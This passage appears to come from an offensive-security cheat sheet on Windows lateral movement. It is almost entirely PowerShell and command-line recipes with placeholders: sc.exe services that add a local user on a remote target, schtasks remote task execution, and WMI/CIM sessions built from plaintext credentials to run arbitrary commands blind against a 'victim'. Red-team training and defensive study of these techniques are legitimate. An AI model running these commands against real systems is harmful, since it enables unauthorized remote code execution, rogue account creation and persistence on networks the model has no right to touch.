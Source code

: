 ```powershell
# Start new shell

# Execute command - create a user
sc.exe \\<target-ip> create <service> binPath= "net user <user> <pass> /add" start= auto
sc.exe \\<target-ip> start <service>

# Stop service
sc.exe \\<target-ip> stop <service>
sc.exe \\<target-ip> delete <service>
```

#### Scheduled tasks command execution (schtasks tool)
> NOTE: The victim's OS is in charge of running the scheduled task, you won't be able to look at the command output.

```powershell
# Create a task
schtasks /s <target-ip> /RU <user> /create /tn <task-name> /tr <command> /sc ONCE /sd 01/01/1970 /st 00:00 

# Run the task
schtasks /s <target-ip> /run /TN <task-name> 

# Stop the task
schtasks /S <target-ip> /TN <task-name> /DELETE /F
```

#### Abusing WMI
**Establishing WMI session**
```powershell
$Username = "<target-user>";
$Password = "<target-pass>";
$TargetHost = "<target-ip>";

# Create PSCredential object
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force;
$Credential = New-Object System.Management.Automation.PSCredential $Username, $SecurePassword;

# Establish WMI session
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $TargetHost -Credential $Credential -SessionOption $Opt -ErrorAction Stop
```

**Command execution (blind)**
```powershell
# Execute a command remotely (blind)
$Command = "<cmd-payload>"
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```

**Service creation (blind)**
```powershell
$ServiceName = "<service-name>"
$Command = "<cmd-payload>"

# Run a service remotely
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
  Name = $ServiceName;
  DisplayName = $ServiceName;
  PathName = $Command;
  ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
  StartMode = "Manual"
}
```